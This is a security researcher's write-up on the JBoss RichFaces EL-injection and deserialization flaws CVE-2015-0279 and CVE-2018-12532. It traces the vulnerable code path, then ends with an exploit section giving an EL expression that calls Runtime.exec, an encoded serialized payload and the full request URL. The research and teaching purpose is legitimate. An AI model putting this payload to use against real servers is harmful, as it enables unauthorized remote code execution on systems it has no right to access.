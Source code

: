 ## CVE-2015-0279

Author: lamnc2

Github: [kiven7299](https://github.com/kiven7299)





### Description

#### CVE-2015-0279

> **JBoss RichFacess before 4.5.4** allows remote attackers to inject expression language (EL) expressions and execute arbitrary Java code via the do parameter
>
> [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2015-0279)



#### CVE-2018-12532

> **JBoss RichFaces 4.5.3 through 4.5.17** allows unauthenticated remote attackers to inject an arbitrary expression language (EL) variable mapper and execute arbitrary Java code via a **MediaOutputResource's resource request**, aka RF-14309.
>
> [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2018-12532)



> Injection of arbitrary EL variable mapper allows to **bypass mitigation of CVE-2015-0279** and thereby remote code execution.
>
> [codewhitesec.blogspot.com](https://codewhitesec.blogspot.com/2018/05/poor-richfaces.html)



#### Conclusion

RichFaces from 4.5.3 to 4.5.17 has a vulnerability in `MediaOutputResource` that allows injecting arbitrary EL variable mapper.



### Find the vulnerable entry point

As stated in CVEs' description, the vulnerability is attempted to be patched in Richfaces4.5.4, so let's make a comparison between the two versions: https://github.com/richfaces/richfaces/compare/4.5.3.Final...richfaces:4.5.4.Final

Look for `MediaOutputResource`:

![image-20200403120539022](images/image-20200403120539022.png)

So the vulnerability is located in `richfaces-a4j:4.5.3:org.richfaces.resource.MediaOutputResource#encode()` method which calls `javax.el.MethodExpression#invoke()` to evaluate EL expression.





### Reach the vulnerable entry point

Refers to RichFaces Showcase for RichFaces 4.5.3.Final ([Github](https://github.com/kiven7299/Stuff/blob/master/RichFaces's%20resource%20handler.pdf))

> **RichFaces: Ajax enabled JSF 2.0 component library**
>
> **Online demo [http://showcase.richfaces.org](http://showcase.richfaces.org/)**
>
> RichFaces showcase is an application created to show **RichFaces components in action.** It contains a set of small use-cases implemented using RichFaces components.
>
> **Snapshot:**
>
> <img src="images/image-20200403170908356.png" alt="image-20200403170908356" style="zoom: 50%;" />



It implies that RichFaces Showcase application utilizes the *MediaOutputResource* dynamic resource builder. 

Inspects requests made by functions:

<img src="images/image-20200404170908347.png" alt="image-20200404170908347" style="zoom:50%;" />

<img src="images/image-20200404170926471.png" alt="image-20200404170926471" style="zoom:50%;" />

Make 2^nd^ request to locally-built web app ([Source code](https://github.com/kiven7299/Java-Deserialization/blob/master/CVE-2015-0279/vulnerable_app.rar)), see that it reaches the vulnerable entry point.

<img src="images/image-20200404174051025.png" alt="image-20200404174051025" style="zoom:50%;" />

<img src="images/image-20200406211010528.png" alt="image-20200406211010528" style="zoom:50%;" />

`contentProducer` is the EL to be evaluated which, as we can see, is set beforehand. Thus, we have to examine the application's workflow to know how `contentProducer` gains its value..

 

#### Examine the workflow

I make a standalone post on this subject: [RichFaces's resource handler](https://github.com/kiven7299/Stuff/blob/master/RichFaces's%20resource%20handler.pdf)

At the step of restoring a state of resource, in this case, `MediaOutputResource`:

```java
//org.richfaces.resource.ResourceUtils    
public static void restoreResourceState(FacesContext context, Object resource, Object state) {
        if (state == null) {
            // transient resource hasn't provided any data
            return;
        }

        if (resource instanceof StateHolderResource) {
          ...
        } else if (resource instanceof StateHolder) {
            StateHolder stateHolder = (StateHolder) resource;
            stateHolder.restoreState(context, state);
        }
    }
```

```java
//public class MediaOutputResource extends AbstractUserResource implements StateHolder, CacheableResource 
public void restoreState(FacesContext context, Object stateObject) {
        Object[] state = (Object[])((Object[])stateObject);
        this.setCacheable((Boolean)state[0]);
        this.setContentType((String)state[1]);
        this.userData = UIComponentBase.restoreAttachedState(context, state[2]);
        this.contentProducer = (MethodExpression)UIComponentBase.restoreAttachedState(context, state[3]);
        this.fileName = (String)state[4];
    }
```



Variable `state` gains it value by deserialization in `org.richfaces.resource.ResourceUtils#decodeObjectData()`: 

```java
public static Object decodeObjectData(String encodedData) {
        byte[] objectArray = decodeBytesData(encodedData);

        try {
            ObjectInputStream in = new LookAheadObjectInputStream(new ByteArrayInputStream(objectArray));
            return in.readObject();
        } catch (StreamCorruptedException e) {
            RESOURCE_LOGGER.error(Messages.getMessage(Messages.STREAM_CORRUPTED_ERROR), e);
        } catch (IOException e) {
            RESOURCE_LOGGER.error(Messages.getMessage(Messages.DESERIALIZE_DATA_INPUT_ERROR), e);
        } catch (ClassNotFoundException e) {
            RESOURCE_LOGGER.error(Messages.getMessage(Messages.DATA_CLASS_NOT_FOUND_ERROR), e);
        }

        return null;
    }
```

![image-20200410002420187](images/image-20200410002420187.png)

- `state[3].orig`: EL expression to be evaluated

  

In next step, response (images, videos, tables, …) is made for users by calling, in this case, `MediaOutputResource.decode()` which is the vulnerable entry point.

```java
public void encode(FacesContext facesContext) throws IOException {
        OutputStream outStream = facesContext.getExternalContext().getResponseOutputStream();
        this.contentProducer.invoke(facesContext.getELContext(), new Object[]{outStream, this.userData});
    }
```

`contentProducer` is the EL expression to be evaluated.

![image-20200410004340262](images/image-20200410004340262.png)



#### Conclusion

- Make serialized object of  that:

  ```java
  // * is a must
  Object[5]: java.lang.Object
  	[0]*: Boolean - is cacheable
  	[1]: String - contentType of the response
  	[2]: StateHolderSaver
  		savedState: existed class (existed in application) - used as param to MethodExpression
      [3]*: StateHolderSaver
      	savedState: MethodExpression - EL expression to inject
  					
  ```

- `Deflate` encrypting. Use encrypting functions provided by RichFaces  in `ResourceUtils`

- Payload: `GET /rfRes/org.richfaces.resource.MediaOutputResource.jsf?do=<serialized object>`





### Exploit

#### Craft payload

Makes an web application that gets an EL expression as input and return string representing serialized object. Source code here [Github](https://github.com/kiven7299/Java-Deserialization/blob/master/CVE-2015-0279/payload_generator.rar)

<img src="images/image-20200410165221092.png" alt="image-20200410165221092" style="zoom: 33%;" />

EL expression to execute OS command:

```java
#{request.getClass().getClassLoader().loadClass("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec("calc.exe")}
```

Serialized object:

```java
eAFtUTFrFEEY!VxyhYmQU0GTQggryF0z9wNOGyWYwMaAC0HP6sve596cszNzM7PnJkeCjY1NAikNRLDVyn8hxCLgD7ASC0VSpnL2VrOgdh!fvPfmvfe9-w6N3MDVJ9EQx8gEypStbw4pcd39T4-OmrYtAoBCA0DDGrhco-4qJQjl8ZJ58fnw7EcAF3rQGKPIyaMdzPIMU-oMNaXaE2-VxII9xYQsS1SmlSTpWOzQ0YoSfTIxjsk8!vjhzsHh8VoAQQQXE4HWPsCMHFyZ-uuU!jqxM1ym3Qhmref0pxoOrlUIrjoxGY6Cb-OmoG6hy-9DZVKGGpMBMRJsjdxA9ZcLbcharuRqpsXy1uuoufBm65KPa2Cx8vsf7Ci6Ptfb-!KzrMUXd46r1d6-fBWf9k5uT4t7vgeTmxNDo5ysYym5e2WoVvt8jBT69H4h!FA9hnXLD3PpeEbhFF!ZboVepd5zOVbPqCVzIdqMCkpaYYIiKcewvQPNWqvq7e9r!27z!cnG1283Jvf!XDtw!1JHsAvzWhcOZgZ8wH8BiE7JRg__
```

Final payload:

```java
/rfRes/org.richfaces.resource.MediaOutputResource.jsf?do=eAFtUTFrFEEY!VxyhYmQU0GTQggryF0z9wNOGyWYwMaAC0HP6sve596cszNzM7PnJkeCjY1NAikNRLDVyn8hxCLgD7ASC0VSpnL2VrOgdh!fvPfmvfe9-w6N3MDVJ9EQx8gEypStbw4pcd39T4-OmrYtAoBCA0DDGrhco-4qJQjl8ZJ58fnw7EcAF3rQGKPIyaMdzPIMU-oMNaXaE2-VxII9xYQsS1SmlSTpWOzQ0YoSfTIxjsk8!vjhzsHh8VoAQQQXE4HWPsCMHFyZ-uuU!jqxM1ym3Qhmref0pxoOrlUIrjoxGY6Cb-OmoG6hy-9DZVKGGpMBMRJsjdxA9ZcLbcharuRqpsXy1uuoufBm65KPa2Cx8vsf7Ci6Ptfb-!KzrMUXd46r1d6-fBWf9k5uT4t7vgeTmxNDo5ysYym5e2WoVvt8jBT69H4h!FA9hnXLD3PpeEbhFF!ZboVepd5zOVbPqCVzIdqMCkpaYYIiKcewvQPNWqvq7e9r!27z!cnG1283Jvf!XDtw!1JHsAvzWhcOZgZ8wH8BiE7JRg__
```



#### PoC

Video demo: https://drive.google.com/open?id=1-5JAxk5jDNCmX0eWXFMAiZot62b-WZbf

